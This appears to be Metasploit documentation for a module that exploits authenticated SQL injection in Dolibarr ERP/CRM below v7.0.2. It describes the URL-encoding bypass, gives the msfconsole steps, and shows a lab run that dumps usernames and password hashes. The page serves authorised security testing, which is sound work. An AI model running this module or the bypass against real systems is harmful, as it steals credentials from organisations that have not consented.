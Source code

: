 
## Description

  This module enables an authenticated user to collect usernames and encrypted passwords of other users of the ERP/CRM Dolibarr software via SQL injection.
  Checks in the Dolibarr software can be bypassed by url-encoding the SQL commands, provided that the commands do not contain quotes.

## Vulnerable Application

  Dolibarr ERP/CRM Software versions < v7.0.2. Dolibarr v7.0.0 can be found [here](https://www.exploit-db.com/apps/04b0bb4b4864117b5bf47c0fcc737254-dolibarr-7.0.0.tar.gz).
  By default, user accounts do not have access to view the list of other users of the software. The admin account must first be used to enable the members page, create general users, and give those users permission to access the members page.
  
## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/sqli/oracle/dolibarr_list_creds```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```set USERNAME [USER]```
  6. Do: ```set PASSWORD [PASS]```
  7. Do: ```set TARGETURI [URI]```
  8. Do: ```run```
  9. You should get a list of credentials

## Scenarios

### Tested on Dolibarr v7.0.0 running on Ubuntu 18.04

```

  msf5 > use auxiliary/sqli/oracle/dolibarr_list_creds
  msf5 auxiliary(sqli/oracle/dolibarr_list_creds) > set username test
  username => test
  msf5 auxiliary(sqli/oracle/dolibarr_list_creds) > set password blah
  password => blah
  msf5 auxiliary(sqli/oracle/dolibarr_list_creds) > set targeturi /dolibarr
  targeturi => /dolibarr
  msf5 auxiliary(sqli/oracle/dolibarr_list_creds) > set rhosts 192.168.37.228
  rhosts => 192.168.37.228
  msf5 auxiliary(sqli/oracle/dolibarr_list_creds) > run

  [*] Logging in...
  [+] Successfully logged into Dolibarr
  [+] Accessed credentials
  [+] user 8456167fd64d3cda366bda95088dda4d7ea94995
  [+] test 9d49884ec5f2c8431572a73e3285ceed3f0bdc5b
  [+] blahBlah e345d4aa5a6a63f828870b0d299dd921d119a5c7
  [+] someUser fe79b08f9f6a1104a141ff65047087a36d926f12
  [*] Auxiliary module execution completed

```
